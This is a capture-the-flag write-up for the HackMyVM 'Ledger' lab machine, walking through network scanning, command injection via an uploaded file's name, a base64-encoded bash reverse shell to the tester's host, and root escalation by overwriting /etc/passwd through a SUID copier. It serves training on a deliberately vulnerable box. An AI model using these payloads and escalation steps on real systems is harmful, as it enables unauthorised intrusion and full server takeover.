




Ledger is a Linux based vulnerable machine on HackMyVM that highlights how input validation failures can cascade from user interface bugs into full server compromise. In this writeup, we will walk through network mapping, abusing a command injection flaw buried in a filename parsing routine, and leveraging a custom SUID binary via local password file manipulation to gain root privileges.

- **Machine:** [Ledger](https://downloads.hackmyvm.eu/ledger.zip)
- **Difficulty:** Easy
- **Core concepts:** Command Injection, SUID

Let's dive straight into the technical process.

## Getting started
As usual a dedicated project folder is created and a script with several tools to identify hosts on the network is executed.
```bash
┌──(emvee㉿kali)-[~/Documents/Ledger]
└─$ sudo ./NET-Scan.sh

███╗   ██╗███████╗████████╗   ███████╗ ██████╗ █████╗ ███╗   ██╗
████╗  ██║██╔════╝╚══██╔══╝   ██╔════╝██╔════╝██╔══██╗████╗  ██║
██╔██╗ ██║█████╗     ██║█████╗███████╗██║     ███████║██╔██╗ ██║
██║╚██╗██║██╔══╝     ██║╚════╝╚════██║██║     ██╔══██║██║╚██╗██║
██║ ╚████║███████╗   ██║      ███████║╚██████╗██║  ██║██║ ╚████║
╚═╝  ╚═══╝╚══════╝   ╚═╝      ╚══════╝ ╚═════╝╚═╝  ╚═╝╚═╝  ╚═══╝
              [ 5-in-1: Nmap + Arp-Scan + Arping + Fping + Ping ]

========================================================
   NUM  INTERFACE    IP-ADRES          
========================================================
   1    eth0         10.0.2.3/24       
========================================================
[?] Kies het nummer van de interface om te scannen: 1

[*] Netwerk herrie starten (Pakket-sweeps afvuren in de achtergrond)... 
[*] Wachten tot netwerk-caches zijn gesynchroniseerd...
[*] Live ARP-data verzamelen...
[+] Scan voltooid! Tabel genereren...

========================================================================================================================
   IP-ADRES         MAC-ADRES           EST. OS         FABRIKANT / MERK                             
========================================================================================================================
   10.0.2.1         52:54:00:12:35:00   Linux/Android   Onbekend merk              
   10.0.2.2         08:00:27:6b:30:6f   Router/Cisco    PCS Systemtechnik GmbH     
   10.0.2.44        08:00:27:bd:b6:13   Linux/Android   PCS Systemtechnik GmbH     
   10.0.2.3         08:00:27:24:46:73   Linux (Local)   Dit Kali-apparaat          
========================================================================================================================
```
The active target was mapped to 10.0.2.44. I stored this inside an environment variable for efficient command piping.
```bash
┌──(emvee㉿kali)-[~/Documents/Ledger]
└─$ ip=10.0.2.44
```
Next, I launched an nmap scan targeting all TCP ports (`-p-`), checking for default scripts (`-sC`) and full service banner details (`-sV`).
```bash
┌──(emvee㉿kali)-[~/Documents/Ledger]
└─$ sudo nmap -sC -sV -T4 -p- $ip 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-11-07 21:16 +0100
Nmap scan report for 10.0.2.44
Host is up (0.0011s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 10.0p2 Debian 7+deb13u4 (protocol 2.0)
5000/tcp open  http    Werkzeug httpd 3.1.8 (Python 3.13.5)
|_http-server-header: Werkzeug/3.1.8 Python/3.13.5
|_http-title: SimpleLedger \xE2\x80\x94 Internal Accounting
MAC Address: 08:00:27:BD:B6:13 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.43 seconds

```
The server is running a Werkzeug development HTTP engine (`Python 3.13.5`) on `port 5000`, signaling a potential Python web application framework like Flask. I ran a quick validation with whatweb.
```bash
┌──(emvee㉿kali)-[~/Documents/Ledger]
└─$ url=http://$ip:5000

┌──(emvee㉿kali)-[~/Documents/Ledger]
└─$ whatweb $url       
http://10.0.2.44:5000 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/3.1.8 Python/3.13.5], IP[10.0.2.44], Python[3.13.5], Script, Title[SimpleLedger — Internal Accounting], Werkzeug[3.1.8]
```
Navigating to the web interface revealed an portal titled `SimpleLedger — Internal Accounting`. The dashboard featured an upload input intended to ingest accounting documentation.

{: width="700" height="400" }

During standard behavioral testing, I created a dummy accounting spreadsheet file called test.csv containing a basic whoami string inside its text cells.
```bash
┌──(emvee㉿kali)-[~/Documents/Ledger]
└─$ nano test.csv     

┌──(emvee㉿kali)-[~/Documents/Ledger]
└─$ cat test.csv    
whoami
```
Uploading `test.csv` yielded standard application responses. However, when trying to understand how the back-end application processed uploads, I tested how the system behaves if commands are passed directly through the filename instead of the file content.

{: width="700" height="400" }

## Initial access
I generated a file whose literal filename string contained semi-colon command terminators.
```bash
┌──(emvee㉿kali)-[~/Documents/Ledger]
└─$ nano 'whoami;id;hostname;'

┌──(emvee㉿kali)-[~/Documents/Ledger]
└─$ cat whoami\;id\;hostname\; 
whoami;id;hostname

┌──(emvee㉿kali)-[~/Documents/Ledger]
└─$ ll
total 16
-rwxrwxr-x 1 emvee emvee 6504 Nov  7 21:14  NET-Scan.sh
-rw-rw-r-- 1 emvee emvee    7 Nov  7 21:26  test.csv
-rw-rw-r-- 1 emvee emvee   19 Nov  7 21:28 'whoami;id;hostname;'

```
When this file was uploaded via the browser interface, the backend web application passed the uploaded filename into an unsanitized shell context (such as an unsafe `os.system` or `subprocess` call running structural maintenance). The response output on the webpage actively reflected the evaluation of the commands embedded in the title.

{: width="700" height="400" }

When attempting a traditional reverse shell payload through the filename parameter, Linux file systems actively block the use of forward slashes (`/`), throwing a `No such file or directory` exception because it interprets slashes as paths rather than file characters.
To resolve this limitation, I base64-encoded a standard bash shell connection string to strip out all problematic directory slashes and special characters:
```bash
┌──(emvee㉿kali)-[~/Documents/Ledger]
└─$ echo "sh -i >& /dev/tcp/10.0.2.3/5555 0>&1" | base64        
c2ggLWkgPiYgL2Rldi90Y3AvMTAuMC4yLjMvNTU1NSAwPiYxCg==
```
Using this clean alphanumeric sequence, I forged a touch command string to create the delivery file, piping the payload back into a `base64 -d` utility wrapper before feeding it straight into execution via a local bash instance.
```bash
┌──(emvee㉿kali)-[~/Documents/Ledger]
└─$ touch 'revshell;echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMC4yLjMvNTU1NSAwPiYxCg==|base64 -d|bash;whoami'
```
I activated a local netcat connection handler listening on port 5555.
```bash
┌──(emvee㉿kali)-[~/Documents/Ledger]
└─$ nc -lvp 5555              
listening on [any] 5555 ...
```
Next the file should be selected to upload to the webserver.

{: width="700" height="400" }

Upon uploading our specially named payload file through the web application dashboard, the web application executed the filename string, instantly returning an unauthenticated shell socket.
```bash
┌──(emvee㉿kali)-[~/Documents/Ledger]
└─$ nc -lvp 5555              
listening on [any] 5555 ...
10.0.2.44: inverse host lookup failed: Unknown host
connect to [10.0.2.3] from (UNKNOWN) [10.0.2.44] 46276
sh: 0: can't access tty; job control turned off
$ whoami;id;hostname;ip a
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
ledger
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:bd:b6:13 brd ff:ff:ff:ff:ff:ff
    altname enx080027bdb613
    inet 10.0.2.44/24 brd 10.0.2.255 scope global dynamic enp0s3
       valid_lft 466sec preferred_lft 466sec
    inet6 fe80::a00:27ff:febd:b613/64 scope link proto kernel_ll 
       valid_lft forever preferred_lft forever
3: enp0s8: <BROADCAST,MULTICAST> mtu 1500 qdisc noop state DOWN group default qlen 1000
    link/ether 08:00:27:3c:3a:9c brd ff:ff:ff:ff:ff:ff
    altname enx0800273c3a9c
$ 

```

## Privilege escalation
Now inside as the low-privilege `www-data` account, I checked the home directory setups. The path `/home/finance` existed but was entirely locked out from general inspection.
```bash
$ pwd
/var/www/simpleledger
$ ls -ahlR /home
/home:
total 12K
drwxr-xr-x  3 root    root    4.0K Sep  1 09:23 .
drwxr-xr-x 18 root    root    4.0K Sep  1 06:35 ..
drwx------  2 finance finance 4.0K Sep  1 09:12 finance
ls: cannot open directory '/home/finance': Permission denied
$ 
```

To find potential system binaries operating under elevated execution tokens, I audited files matching the setuid (`-perm -u=s`) permissions flags.
```bash
$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mount
/usr/bin/chfn
/usr/bin/umount
/usr/bin/su
/usr/local/bin/ledger-archiver
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
$ 

```
The executable `/usr/local/bin/ledger-archiver` stood out as a non-standard custom binary. 
Inspecting its characteristics revealed it to be a raw compilation module running with root permissions:
```bash
$ file /usr/local/bin/ledger-archiver
/usr/local/bin/ledger-archiver: setuid ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=8ee457cc9683e3a4c8e8757694a44b3bd973e7e6, for GNU/Linux 3.2.0, not stripped
$ 
```
Executing it without arguments revealed its functionality.
```bash
$ /usr/local/bin/ledger-archiver
Usage: /usr/local/bin/ledger-archiver <source-file> <destination-file>
Archive a ledger file into the protected backup store.
```
To inspect the underlying actions of the binary without a full debugger, I dumped its string tables using `strings`.
```bash
$ strings /usr/local/bin/ledger-archiver
/lib64/ld-linux-x86-64.so.2
perror
read
open
__libc_start_main
stderr
fprintf
__cxa_finalize
close
fwrite
libc.so.6
GLIBC_2.2.5
GLIBC_2.34
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
PTE1
u+UH
Usage: %s <source-file> <destination-file>
Archive a ledger file into the protected backup store.
open source
open destination
write
Archived %s -> %s
;*3$"
GCC: (Debian 14.2.0-19) 14.2.0
Scrt1.o
__abi_tag
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.0
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
ledger-archiver.c
__FRAME_END__
_DYNAMIC
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_start_main@GLIBC_2.34
_ITM_deregisterTMCloneTable
_edata
_fini
close@GLIBC_2.2.5
read@GLIBC_2.2.5
__data_start
fprintf@GLIBC_2.2.5
__gmon_start__
__dso_handle
_IO_stdin_used
_end
__bss_start
main
open@GLIBC_2.2.5
perror@GLIBC_2.2.5
fwrite@GLIBC_2.2.5
__TMC_END__
_ITM_registerTMCloneTable
__cxa_finalize@GLIBC_2.2.5
_init
stderr@GLIBC_2.2.5
.symtab
.strtab
.shstrtab
.note.gnu.property
.note.gnu.build-id
.interp
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.note.ABI-tag
.init_array
.fini_array
.dynamic
.got.plt
.data
.bss
.comment

```
The compilation outputs reveal that this binary utilizes low-level filesystem descriptors (`open`, `read`, `fwrite`) rather than shell subprocess handlers like `system` or `popen`. Consequently, command injection is not possible here.

Instead, this SUID utility operates as an unrestricted arbitrary file copier. Because it runs as root, it will read any source file and write it to any destination path, bypassing structural user folder isolation profiles.

Since we can copy files arbitrarily with root rights, the fastest path to system takeover is overwriting the system password mapping database (`/etc/passwd`).
First, I used openssl to generate a known password entry hash matching the password password.
```bash
$ openssl passwd -1 -salt hacker password
$1$hacker$9MeWOdvz78rHYG01HSLfr/
```
Next, I duplicated the target system's existing password file (`/etc/passwd`) into the temporary folder `/tmp/` and appended a custom row creating a new user hacker with an ID of `0` (granting global root access rights).
```bash
$ cp /etc/passwd /tmp/passwd_new
$ echo 'hacker:$1$hacker$9MeWOdvz78rHYG01HSLfr/:0:0:root:/root:/bin/bash' >> /tmp/passwd_new
```
Using the vulnerable custom SUID tool, I archived our manipulated configuration matrix file back over the central system password deployment tree.
```bash
$ /usr/local/bin/ledger-archiver /tmp/passwd_new /etc/passwd
Archived /tmp/passwd_new -> /etc/passwd
```
With the system authentication store successfully altered, I executed a standard account switch command to transition to our freshly established root context.
```bash
$ su hacker
Password: password
whoami;id;hostname;ip a; cat /root/root.txt; cat /home/finance/user.txt
root
uid=0(root) gid=0(root) groups=0(root)
ledger
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:bd:b6:13 brd ff:ff:ff:ff:ff:ff
    altname enx080027bdb613
    inet 10.0.2.44/24 brd 10.0.2.255 scope global dynamic enp0s3
       valid_lft 387sec preferred_lft 387sec
    inet6 fe80::a00:27ff:febd:b613/64 scope link proto kernel_ll 
       valid_lft forever preferred_lft forever
3: enp0s8: <BROADCAST,MULTICAST> mtu 1500 qdisc noop state DOWN group default qlen 1000
    link/ether 08:00:27:3c:3a:9c brd ff:ff:ff:ff:ff:ff
    altname enx0800273c3a9c
HMV{root-FLAG}
HMV{user-FLAG}

```
We successfully escalated our access tto root permissions on this Linux box. 
Both the user and root flags were then easily extracted from their respective home environments, completing the full machine compromise.